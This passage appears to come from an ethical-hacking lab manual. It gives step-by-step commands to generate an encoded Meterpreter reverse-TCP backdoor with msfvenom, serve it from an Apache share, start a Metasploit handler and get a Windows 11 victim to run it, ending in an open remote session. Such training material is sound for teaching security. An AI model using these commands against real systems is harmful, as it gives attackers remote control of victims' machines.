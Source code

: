 	8. Type the command msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe > /home/attacker/Desktop/Backdoor.exe and press Enter.
Here, the localhost IP address is 10.10.1.13 (the Parrot Security machine).
	
	9. This will generate Backdoor.exe, a malicious file, on /home/attacker/Desktop, as shown in the screenshot.
To navigate to the Desktop, click Places from the top-section of the Desktop and click Home Folder from the drop-down options. The attacker window appears, click Desktop.
	
	10. Now, you need to share Backdoor.exe with the target machine (in This task, Windows 11).
	11. In the previous lab, we created a directory or shared folder (share) at the location (/var/www/html) and with the required access permission. We will use the same directory or shared folder (share) to share Backdoor.exe with the victim machine.
If you want to create a new directory to share the Backdoor.exe file with the target machine and provide the permissions, use the below commands:
	• Type mkdir /var/www/html/share and press Enter to create a shared folder
	• Type chmod -R 755 /var/www/html/share and press Enter
	• Type chown -R www-data:www-data /var/www/html/share and press Enter
	12. Type cp /home/attacker/Desktop/Backdoor.exe /var/www/html/share/ and press Enter to copy the file to the share folder.
	13. To share the file, you need to start the Apache server. Type the command service apache2 start and press Enter.
	
	14. Now, type the command msfconsole and press Enter to launch Metasploit.
	15. Type use exploit/multi/handler and press Enter to handle exploits launched outside of the framework.
	16. Now, issue the following commands in msfconsole:
	• Type set payload windows/meterpreter/reverse_tcp and press Enter
	• Type set LHOST 10.10.1.13 and press Enter
	• Type show options and press Enter; this lets you know the listening port
	
	17. To start the handler, type exploit -j -z and press Enter.
	
	18. Click Windows 11 to switch to the Windows 11 machine.
	19. Open any web browser (here, Mozilla Firefox). In the address bar place your mouse cursor, type http://10.10.1.13/share and press Enter. As soon as you press enter, it will display the shared folder contents, as shown in the screenshot.
	20. Click Backdoor.exe to download the file.
	
	21. Once you click on the Backdoor.exe file, the Opening Backdoor.exe pop-up appears; select Save File.
Make sure that both the Backdoor.exe and Secret.txt files are stored in the same directory (here, Downloads).
	22. Double-click the Backdoor.exe file. The Open File - Security Warning window appears; click Run.
	
	23. Leave the Windows 11 machine running and click Parrot Security to switch to the Parrot Security machine.
	24. The Meterpreter session has successfully been opened, as shown in the screenshot.
	25. Type sessions -i 1 and press Enter (here, 1 specifies the ID number of the session). The Meterpreter shell is launched, as shown in the screenshot.
	
	26. Type sysinfo and press Enter. Issuing this command displays target machine information such as computer name, OS, and domain.
	